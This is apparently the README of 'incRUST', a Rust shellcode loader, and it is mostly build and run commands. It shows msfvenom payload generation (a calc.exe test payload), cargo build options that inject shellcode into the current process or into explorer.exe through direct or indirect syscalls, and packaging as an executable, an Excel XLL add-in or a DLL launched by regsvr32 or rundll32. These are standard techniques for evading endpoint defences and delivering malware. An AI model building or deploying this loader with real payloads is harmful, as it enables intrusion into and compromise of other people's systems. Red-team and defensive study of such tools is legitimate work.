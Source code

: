 incRUST, a rust loader using direct ot indirect syscalls !


(!) indirect syscall in x86 could be not working on some systems becausz of different syscall stubs (https://gist.github.com/wbenny/b08ef73b35782a1f57069dff2327ee4d)


# Payload Test generation
## x86
msfvenom -f bin -p windows/exec cmd=calc exitfunc=thread -f base64 -o payload-x86.b64

## x86_64
### base 64
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f base64 -o payload-x64.b64
### bin
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f raw -o payload-x64.bin


# Build Options
## Payload
### Specifying the file containing the payload
--config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'"

### Type of payload
- bin
--features=payload_bin
- base64
--features=payload_bin



## injection target
- current process
```shell
--features=inject_self
```
- remote by process id
```shell
--features=inject_proc_id
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_ID.value='10360'"
```
- remote process by name
```shell
--features=inject_proc_name
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_NAME.value='explorer.exe'"
```

## injection type
- direct syscall
```shell
--features=syscall_direct
```
- indirect syscall
```shell
--features=syscall_indirect
```

# Build Samples
## x64
- executable
```shell
cargo build --bin incrust --target x86_64-pc-windows-gnu --release --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

- excel library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=xll,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```
then rename incrustlib.dll into .xll

- regsvr library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=regsvr,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

To fire : 
```cmd
regsvr32 /s .\incrustlib.dll
```
or
```cmd
rundll32.exe .\incrustlib.dll,DllRegisterServer
```


## x86
```shell
cargo build  --bin incrust --target i686-pc-windows-gnu --release --features=no_console,payload_b64,inject_self,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" 
```

```shell
cargo build --bin incrust --target i686-pc-windows-gnu --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" --config "env.PROCESS_NAME.value='explorer.exe'"
```

